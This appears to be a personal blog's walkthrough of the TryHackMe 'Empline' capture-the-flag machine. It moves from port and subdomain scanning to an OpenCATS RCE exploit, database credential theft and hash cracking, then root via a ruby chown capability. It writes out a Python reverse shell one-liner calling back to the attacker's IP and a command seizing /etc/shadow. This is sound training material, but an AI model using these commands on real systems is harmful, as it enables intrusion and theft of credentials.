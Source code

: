 ```yaml
---
layout: post
title:  "TryHackMe: Empline CTF Writeup"
author: sarpdora23
categories: [ TryHackMe, CTF,Writeup ]
tags: [red, yellow]
image: assets/images/empline.png
description: "TryHackMe: Empline CTF Writeup"
featured: true
hidden: true
---
```

TryHackMe medium level web machine Empline boot2root walkthrough.
## Discovery Part

First thing I scan all ports what services are running on the server.

```bash
sudo nmap -sC -sV -p- 10.10.70.209
```

![1.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/1.png)

Server has a **web service**, **ssh** service and **mysql** database. Then I go to webpage.

![2.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/2.png)

Nothing is there… so I wonder is there any subdomain. First assigned ip to empline.thm in **“/etc/hosts”** document. Then I use **wfuzz** for find subdomains.

```bash
sudo wfuzz -H "Host:FUZZ.empline.thm" -u http://empline.thm/ -w /usr/share/wordlists/SecList
```

![Untitled](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/Untitled.png)

So there is one subdomain “**job.empline.thm**”. I look what is in there and I find login page

![3.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/3.png)

 and also “**opencats”** is running on the system. I checked source code any information about “**opencats version**”.

![4.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/4.png)

So I know version number and I search any exploit for “**opencats 0.9.4**”.

![5.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/5.png)

## Enumeration Part

Perfect!! There is a “**RCE(Remote Code Execution)”** exploit suitable for the machine. I get the exploit from searchsploit and run…..

![6.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/6.png)

It is working!!! But something is wrong. Yes I can run the commands but its not like real shell.

![7.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/7.png)

It is not exactly shell but we can get shell easily from command execution. Server has python3 so I can run python code. I made reverse shell payload with python.

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.8.50",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

I run the python code on target machine and In my machine I use netcat for listen port.

```python
nc -lvnp 1234
```

![8.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/8.png)

I got the shell… I checked is there any config files for **“opencats”**. I went to “**/var/www/html/opencats**” folder. Let’s look files.

![9.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/9.png)

**“config.php”** file can contains important data. I read the file with cat command.

![10.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/10.png)

I can login mysql database with this information. Let’s try…

![11.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/11.png)

I succesfully loged in with credentials. I found databases. Let’s continue with opencats.

![Untitled](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/Untitled%201.png)

“**user**” table looks interesting.

![12.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/12.png)

There are encrypted passwords. I check “**crackstation.net**”

![13.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/13.png)

I know the password but I need user’s name for ssh. I looked users on the machine.

![Untitled](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/Untitled%202.png)

Try login ssh with username and password.

![14.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/14.png)

## Privilege Escalation Part

Find and read user flag.

![15.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/15.png)

Last thing I need to become root for successfully finish the machine. I upload “**linpeas.sh”** tool for find any information become root.

![16.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/16.png)

**Linpeas** shows there are some capabilities user can. “**/usr/local/bin/ruby = cap_chown+ep**” means user can change any file’s owner with ruby. I change “**/etc/shadow**” file’s owner because if user write the shadow file then can change the root’s password.

```ruby
ruby -e 'require "fileutils"; FileUtils.chown "george", "george", "/etc/shadow"'
```

![17.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/17.png)

I changed root’s password. Let’s try to login root.

![18.png](../assets/images/TryHackMe%20Empline%20Writeup%200a987ba5c27248e5a170ba2bc5bcf4e8/18.png)

### THANK YOU FOR READING 🙂

